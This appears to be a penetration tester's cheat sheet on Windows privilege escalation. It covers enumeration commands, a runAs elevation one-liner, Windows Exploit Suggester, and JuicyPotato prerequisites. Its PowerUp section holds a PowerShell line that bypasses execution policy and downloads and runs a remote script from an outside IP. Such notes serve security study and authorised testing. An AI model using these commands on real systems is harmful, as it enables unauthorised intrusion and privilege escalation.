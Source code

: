 
## Privilege escalation (Priv esc)

### Windows

- Starting powershell in high-integrity mode: `powershell Start-Process cmd.exe -Verb runAs`
- A lot of windows binaries can be found at `/usr/share/windows-binaries/` for kali linux
#### Sherlock

- Can use sherlock to find priv esc possiblities

#### Finding system info
```sh
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
echo %username%
net users
```

#### Powerup

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194/PowerUp.ps1'); Invoke-AllChecks
# Powerup original url: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```

#### Windows Exploit Suggester

```sh
windows-exploit-suggester --database 2020-05-20-mssb.xls --systeminfo systeminfo.txt
```

#### JuicyPotato

RottenPotatoNG and its variants leverages the privilege escalation chain based on BITS service having the MiTM listener on `127.0.0.1:6666` and when you have SeImpersonate or SeAssignPrimaryToken privileges. During a Windows build review we found a setup where BITS was intentionally disabled and port `6666` was taken. Neds to have `SeImpersonatePrivilege` enabled:

```powershell
c:\Users\Public\Documents>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
